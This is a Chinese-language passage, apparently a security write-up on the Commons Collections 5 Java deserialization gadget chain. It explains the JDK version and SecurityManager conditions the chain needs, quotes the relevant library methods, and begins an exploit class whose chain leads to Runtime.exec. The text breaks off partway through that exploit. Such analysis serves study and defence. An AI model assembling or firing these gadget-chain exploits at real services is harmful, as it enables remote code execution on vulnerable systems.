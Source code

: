 ```
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

从注释里面还可以得到, 这个 chain 只能用于 >= 8u76, 且 SecurityManager 未设置的情况下使用.
原因是在 8u76 的更新里面, 添加了 `javax.management.BadAttributeValueExpException` 的 readObject 方法

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ObjectInputStream.GetField gf = ois.readFields();
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
            || valObj instanceof Long
            || valObj instanceof Integer
            || valObj instanceof Float
            || valObj instanceof Double
            || valObj instanceof Byte
            || valObj instanceof Short
            || valObj instanceof Boolean) {
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```
可以看到, 在 `System.getSecurityManager() == null` 的情况下, 将会不管 valObj 的类型, 调用 toString 方法, 这里需要配合 `org.apache.commons.collections.keyvalue.TiedMapEntry` 来使用, 其重写的 toString 方法

```java
public Object getValue() {
    return this.map.get(this.key);
}

public String toString() {
    return this.getKey() + "=" + this.getValue();
}
```

看到熟悉的 map.get 了么, 这里就又回到了 LazyMap 的那一套, 接下来也不用多说了, exp 如下:
```java
package demo.rmb122;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections5 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(java.lang.Runtime.class),
```